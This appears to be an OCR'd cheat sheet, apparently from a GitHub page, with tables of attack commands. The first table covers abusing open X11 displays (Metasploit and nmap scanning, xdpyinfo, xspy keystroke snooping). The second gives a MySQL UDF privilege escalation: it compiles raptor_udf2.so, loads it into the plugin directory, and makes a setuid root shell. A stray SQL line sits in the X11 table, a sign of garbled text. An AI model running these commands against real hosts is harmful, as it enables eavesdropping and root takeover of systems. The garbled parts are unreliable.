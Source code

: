

### X 11  Common Vulnerability

| for Example  |
| ------------- |
| use auxiliary/scanner/x11/open_x11 @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@|
| nmap -p 6000 --script=x11-access 192.168.2.26,75 |
| create table npn(line blob); |
| xdpyinfo -display 192.168.2.75:0 | head -n 5 |
| xspy -display 192.168.1.23:0 -delay 100 |



### MySQL Privilge Escalation Through UDF

| for Example|
| ------------- |
|gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc|
| use mysql; |
|create table npn(line blob); |
| insert into npn values(load_file('/tmp/raptor_udf2.so')); |
|select * from npn into dumpfile '/usr/lib/raptor_udf2.so';|
| create function do_system returns integer soname 'raptor_udf2.so'; |
| select do_system('chown root:root /tmp/sid-shell; chmod +s /tmp/sid-shell'); |
